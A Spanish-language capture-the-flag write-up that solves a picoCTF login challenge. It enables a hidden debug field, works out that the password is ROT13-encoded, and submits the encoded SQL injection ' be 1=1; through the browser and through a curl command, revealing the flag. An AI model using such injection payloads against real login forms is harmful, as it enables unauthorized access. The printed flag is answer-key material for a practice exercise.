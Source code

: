 ## Descripción 
There is a secure website running at `https://jupiter.challenges.picoctf.org/problem/40742/` ([link](https://jupiter.challenges.picoctf.org/problem/40742/)) or http://jupiter.challenges.picoctf.org:40742. Try to see if you can login as admin!

## Datos de Acceso al Nivel
user: carlosof
password:

## Solución 1

- Ingresamos al link de la pagina y nos dirigimos a la parte del login del admin.
- Inspeccionamos la pagina web y  en el `<input type="hidden" name="debug" value="0">` cambiamos el valor a 1.
- Al tratar de ingresa la  inyección `'or 1=1;`, nos regresa lo siguiente:
```
password: 'or 1=1;
SQL query: SELECT * FROM admin where password = ' be 1=1;
```
- Sabiendo por una las pistas que la password se encripta, ingresamos `hola mundo` para ver el comportamiento y regresa lo siguiente: 
```
password: hola mundo
SQL query: SELECT * FROM admin where password = 'ubyn zhaqb'

# Login failed.
```

- Ingresamos a la pagina cyberchef (sospechamos que muy probablemente esta encriptada por ROT13)  e ingresamos lo que nos devolvió la primera inyección `' be 1=1;` 
- Confirmamos que ese es el cifrado.
- Copiamos `' be 1=1;` y lo ingresamos como la password.

```
password: ' be 1=1;
SQL query: SELECT * FROM admin where password = '' or 1=1;'

# Logged in!

Your flag is: picoCTF{3v3n_m0r3_SQL_4424e7af}
```

## Solución 2

```bash
carlosof-picoctf@webshell:~$ curl -s https://jupiter.challenges.picoctf.org/problem/40742/login.php -d "password=' be 1=1;&debug=1"
<pre>password: ' be 1=1;
SQL query: SELECT * FROM admin where password = '' or 1=1;'
</pre><h1>Logged in!</h1><p>Your flag is: picoCTF{3v3n_m0r3_SQL_4424e7af}</p>carlosof-picoctf@webshell:~$ 

```


## Notas Adicionales


## Referencias 
https://play.picoctf.org/practice/challenge/8
[CyberChef](https://latam.kaspersky.com/resource-center/definitions/sql-injection?srsltid=AfmBOootRM9cCI88fJV0m7V-OOrzjB2Z5qBP-J1De9j-ZjM5AXJLUxk0)
https://es.wikipedia.org/wiki/ROT13